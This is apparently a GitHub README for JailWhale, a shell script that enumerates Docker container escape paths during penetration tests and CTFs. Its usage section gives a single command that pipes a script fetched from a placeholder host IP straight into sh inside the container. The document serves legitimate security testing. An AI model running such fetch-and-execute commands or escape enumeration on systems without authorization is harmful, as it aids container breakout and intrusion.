

# JailWhale

Docker escape enumeration tool to be used when you end up in a docker container during a penetration test. I tried to minimize the dependencies, so a common linux-based system with `sh` should be able to run JailWhale. Further checks and methods to be added, when I encounter new techniques in CTFs.

### Usage

```bash
# On your host
python -m http.server 8080
# In the container
curl http://<YOUR_IP>:8080/JailWhale.sh | sh
```

### Sample Output



### TODO

* Display container info (container id, hostname etc.)
* More CVE-checks
* More hints on exploiting capabilities

### Credits
Much love to https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout for documenting various techniques
